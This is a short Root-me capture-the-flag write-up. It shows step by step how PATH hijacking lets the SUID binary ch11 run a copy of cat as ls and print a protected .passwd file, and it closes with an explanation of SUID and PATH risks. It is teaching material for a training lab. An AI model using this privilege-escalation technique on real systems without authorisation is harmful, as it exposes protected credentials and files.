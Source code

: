 ```yaml
---
title: "Bash - System 1 - Root-me Write-up"
date: 2025-06-16
tags: []
---
```


This challenge exploits a **`PATH` environment variable manipulation vulnerability** in a SUID binary.

The binary `ch11` is executed with elevated privileges and internally calls `ls` **without an absolute path**. Because of this, we can hijack the command that gets executed by manipulating the `PATH`.


**Goal**

Trick the binary into executing `cat` instead of `ls` to read the contents of a protected `.passwd` file.


**Exploitation Steps**

1. Copy `cat` to `/tmp/ls`

This makes sure that when `ls` is called, our fake version (which is actually `cat`) is executed:

```bash
app-script-ch11@challenge02:~$ cp /bin/cat /tmp/ls
```

2. Modify the PATH variable to prioritize /tmp

```bash
app-script-ch11@challenge02:~$ PATH=/tmp
app-script-ch11@challenge02:~$ echo $PATH
/tmp
```
3. Run the vulnerable binary
When ch11 runs ls, it will now execute /tmp/ls, which is actually cat. The result is that it prints the content of .passwd instead of listing directory contents.

```bash
app-script-ch11@challenge02:~$ ./ch11
```

**Conclusion**
This attack works because the binary uses ls without specifying the full path (e.g., /bin/ls). By changing the PATH, we inject our own malicious binary (in this case, a copy of cat), which gives us access to protected data.

This leverages several key concepts in Unix/Linux security:

- SUID (Set User ID) binaries allow users to run executables with the permissions of the file owner, which can lead to privilege escalation if not properly secured.

- Environment variable manipulation, particularly the PATH variable, can redirect command execution to unintended binaries.